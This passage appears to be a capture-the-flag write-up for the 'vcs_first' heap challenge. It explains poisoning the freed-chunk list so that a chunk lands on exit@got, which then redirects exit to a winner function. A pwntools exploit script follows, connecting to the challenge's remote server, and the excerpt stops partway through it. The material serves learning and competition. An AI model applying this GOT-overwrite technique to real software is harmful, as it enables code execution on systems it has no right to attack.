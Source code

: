 The free'd list after the two creates and deletes is `0x60: chunk1 -> chunk2`. We then edit it to be `0x60: chunk1 -> exit@got`. We then create two chunks to create the second chunk at the address of exit@got, and editing exit@got to point at the winner function instead of libc. We then make sure exit is called by sending a negative index to `create`, and when the program tries to call `exit` it will call the `winner` function instead.

Running this locally gives us a shell, and running it against the remote lets us read the flag.

![getting the flag](./images/flag.png "getting the flag")

## Full exploit:

```py
#!/usr/bin/env python3
from pwn import *
import psutil

BINARY = "vcs_first"

context.update(arch="amd64",os="linux")
context.binary = exe = ELF(f"./{BINARY}", checksec=False)

def get_pid_by_name(process_name):
    for process in psutil.process_iter(attrs=['pid', 'name']):
        if process.info['name'] == process_name:
            return process.info['pid']
    return None

# IMPORTANT: requires that you run `docker run -d -p 1024:1024 --rm -it vcs_first` first (with the normal docker image, not the development onw)
# p = remote("localhost", 1024)
# pause() # to give it some time

p = remote("io.ept.gg", 30005)

# uncomment to attach to process in docker
# gdb.attach(target=get_pid_by_name(BINARY), exe=f"./{BINARY}", gdbscript='''
#     source /home/moody/.gdbinit-gef-docker.py
#     c
# ''')

def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

send(b"2")
```